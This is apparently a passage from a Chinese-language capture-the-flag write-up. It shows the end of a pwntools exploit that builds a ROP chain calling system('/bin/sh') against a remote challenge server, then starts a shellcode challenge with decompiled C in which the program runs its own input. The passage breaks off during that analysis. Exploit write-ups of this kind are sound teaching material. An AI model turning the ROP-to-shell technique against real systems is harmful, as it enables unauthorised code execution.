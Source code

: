 ```python
code += ICONST + p32(libc___libc_start_main_ret)
code += ISUB                            # 现在栈上是 offset_low 了
code += STORE + p32(0)                  # 存到 local[0]
code += GLOAD + p32(135)                # 存高位到 local[1]
code += STORE + p32(1)                  # 现在 offset_low = local[0], offset_high = local[1]

# 构造 rop 链.
code += get_real_addr(libc_ret)
code += write_to_gobals(134)
code += get_real_addr(libc_pop_rdi_ret)
code += write_to_gobals(136)
code += get_real_addr(libc_str_bin_sh)
code += write_to_gobals(138)
code += get_real_addr(libc_system)
code += write_to_gobals(140)

# 恢复 globals
code += POP + POP + POP
code += LOAD + p32(2)
code += LOAD + p32(3)

code += HALT
code = code.ljust(128*4, b'\x00')

# io = process('./test')
io = remote('pwn.archive.xdsec.chall.frankli.site', 10013)

io.recvuntil(b'Input your code:\n')
io.send(code)
io.interactive()
```

### Shellcode \| Wings

检查信息, 64 位可执行文件, 保护全开. `s main;pdg`:

```c
undefined8 main(void)
{
    int32_t iVar1;
    
    fcn.0000123d();
    sym.imp.read(0, *(code **)0x4018, 0x100);
    iVar1 = fcn.00001209((char *)*(code **)0x4018);
    if (iVar1 != 0) {
        (**(code **)0x4018)();
    }
    return 0;
}
```

把输入当成函数执行了. 不过之前调用了一下 fcn.0000123d 函数. `s fcn.0000123d; pdg`:
